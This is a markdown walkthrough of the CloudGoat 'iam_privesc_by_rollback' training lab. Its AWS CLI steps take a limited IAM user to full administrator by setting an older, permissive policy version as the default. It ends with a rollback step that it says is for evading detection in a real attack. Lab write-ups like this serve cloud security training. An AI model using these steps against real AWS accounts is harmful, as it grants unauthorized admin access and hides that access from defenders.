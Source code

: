 # IAM prvilege Escalation
The goal of this scenario is to use a access limited user to escalate their privileges to full admin privileges.

## Installation
```./cloudgoat.py create iam_privesc_by_rollback```

## Scenario Walkthrough
### Assume Role Raynor
Add raynor into the AWS CLI profiles and login as the user
```
aws configure --profile raynor
<Add access key, secret access key, region and text as output>
aws sts get-caller-identity 
.. arn:aws:iam::672021671131:user/<username> ...
```

### Identify permissions tied with Raynor
1. List permissions
```
aws iam list-attached-user-policies --user-name <username> --profile raynor
```
We see that 1 policy is associated with the user. Note that using list-user-policies will not see previous versions of the policy.
2. Enumerate policy versions
```
aws iam list-policy-versions --policy-arn <policy arn> --profile raynor
Search for True as the current version.
```
We can see that there are 5 versions of the policy.
3. List the most current version
```
aws iam get-policy-version --policy-arn <policy arn> --profile raynor --version-id v1 --output json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "IAMPrivilegeEscalationByRollback"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-04-20T03:37:16+00:00"
    }
}
```
We see that we can set a default version policy. Hence we will search for a version that allows administrative privileges.

### Privilege Escalate
1. Identify versions that have administrative privileges
```
aws iam get-policy-version --policy-arn <policy arn> --profile raynor --version-id v2 --output json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": false,
        "CreateDate": "2023-04-20T03:37:19+00:00"
    }
}
```
Thus, we can use the above version for the default policy
2. Set default policy
```
aws iam set-default-policy-version --policy-arn <policy arn> --profile raynor --version-id v2
```
3. In an actual scenario, once you have executed your actions you can revert back to the original policy to evade detection
```
aws iam set-default-policy-version --policy-arn <policy arn> --profile raynor --version-id v1
```
## References
You can refer to the challenge here: https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_rollback/README.md